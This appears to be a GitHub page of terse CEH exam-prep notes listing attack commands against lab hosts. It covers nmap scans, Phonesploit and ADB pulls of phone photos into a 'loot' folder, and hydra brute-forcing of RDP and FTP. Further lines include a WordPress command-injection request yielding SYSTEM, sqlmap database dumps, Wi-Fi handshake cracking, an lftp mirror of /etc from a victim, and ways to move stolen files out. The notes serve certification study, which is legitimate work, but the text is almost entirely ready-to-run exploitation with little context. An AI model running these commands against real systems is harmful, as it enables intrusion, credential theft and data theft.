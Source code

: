 # CEH

mysql
nmap -p 3306 10.10.1.0/24
nmap -sV -p 0-65535 10.10.1.19


Product Version/FQDN/DNS CN
nmap -p 389 10.10.1.0/24
nmap -A 10.10.1.22

Android
nmap -p 5555 10.10.1.0/24
Phonesploit 10.10.1.14
Get shell
Navigate /sdcard/Downloads
ls
pull /sdcard/Downloads
open image file

RDP (remmina)
nmap -p 3389 10.10.1.0/24
Remote Desktop Connection
Windows Explorer Search

Cryptoforge
HashCalc

snow
cyberchef base64 encode  
open cmd in snow folder
snow -C -m "base64 encoded output" -p "password" restricted.txt restricted2.txt
snow -C -p "password" restricted2.txt
cyberchef base64 decode

log4j-shell-poc
nmap -p 22 10.10.1.0/24
ssh ubuntu@10.10.1.9
toor
find log4j-shell-poc folder
cat requirements.txt

OpenVAS
docker run -d -p 443:443 –-name openvas mikesplain/openvas
127.0.0.1

WordPress
https://wpscan.com/  (hackscuseme@proton.me - Phan)
wpscan --url http://10.10.1.22:8080/CEH --api-token [API Token 
curl -i 'http://10.10.1.22:8080/CEH/wp-admin/admin-ajax.php?action=upg_datatable&field=field:exec:whoami:NULL:NULL' 
nt authority\ \system

RDP (remmina)
nmap -p  21, 139, 3389 10.10.1.0/24
hydra -L Usernames.txt -P Passwords.txt 10.10.1.11 rdp
RDP 10.10.1.11
Search for CEH-Tools

Map Windows drive in ParrotOS
smbclient \\\\10.10.1.11\\CEH-Tools -U username

IPV4 packet counts
Wireshark -> Statistics -> Conversations -> IPv4 -> Sort by Packets

aircrack-ng -w password.txt W!F!_Pcap.cap


SQLmap
sqlmap -u "http://www.moviescope.com/viewprofile.aspx?id=1" --cookie="[cookie value that you copied in Step#8]" --dbs 


DVWA
Login to http://10.10.1.22:8080/DVWA
admin / password
Set Security to low
| dir directory
| type file name

Linux privilege escalation
nmap -p 22 10.10.1.0/24
ssh ubuntu@10.10.1.9
toor
cd /
cat

ELF & DIE
Detect It Easy
load file
Hash button
PT_LOAD(0)


SQL Injection
Parrot Firefox login to website
Developer tools copy cookie
sqlmap -u "http://www.moviescope.com/viewprofile.aspx?id=1" --cookie="[cookie value]" --dbs
sqlmap -u "http://www.moviescope.com/viewprofile.aspx?id=1" --cookie="[cookie value]" -D moviescope --tables
sqlmap -u "http://www.moviescope.com/viewprofile.aspx?id=1" --cookie="[cookie value ]" -D moviescope -T User_Login --dump


https://crackstation.net

https://gchq.github.io/CyberChef/

nmap.org/download.html

hostname -I

Domain Controller 389
Windows web dev env 3306
RDP RAT 3389
Android ADB 5555

sqlmap -u "http://www.moviescope.com" --crawl=2 --dump-format=CSV --dump

sqlmap -u "http://www.moviescope.com" --crawl=2
# accept defaults

ls ~/.local/share/sqlmap/output/www.moviescope.com/
cat ~/.local/share/sqlmap/output/www.moviescope.com/*.csv

nmap -p 20,21,22,139,445,3389 <target>

get remote_file local_file
mget -R remotefolder/*
wget -m ftp://user:pass@host/remotefolder/

On ParrotOS, lftp is installed or available via apt install lftp. It supports recursive downloads:

lftp ftp://user:pass@victim-ip
mirror /etc configs_backup

aircrack-ng handshake.cap -w rockyou.txt

# ADB equivalent:
adb -s 192.168.1.50:5555 pull /sdcard/DCIM/Camera ./loot/192.168.1.50/Camera

On Windows 11, enable OpenSSH Server (Settings → Optional Features → Add a feature)

scp -r ./loot/192.168.1.50/Camera YourWinUser@192.168.1.20:/Users/YourWinUser/Desktop/loot/

sudo apt install -y cifs-utils
sudo mkdir -p /mnt/winshare
sudo mount -t cifs //192.168.1.20/dropbox /mnt/winshare -o username=YourWinUser,domain=WORKGROUP
cp -r ./loot/192.168.1.50/Camera /mnt/winshare/
sudo umount /mnt/winshare

cd ./loot/192.168.1.50
python3 -m http.server 8000
On Windows, open a browser to http://<ParrotOS-IP>:8000/ and download the folder/files.

hydra -L /home/attacker/Desktop/Wordlists/Usernames.txt -P /home/attacker/Desktop/Wordlists/Passwords.txt ftp://[IP Address of Windows 11]. 

hydra -l Administrator -P passwords.txt rdp://10.10.1.11 -t 4 -f -V

docker run -d -p 443:443 –-name openvas mikesplain/openvas command to launch OpenVAS.
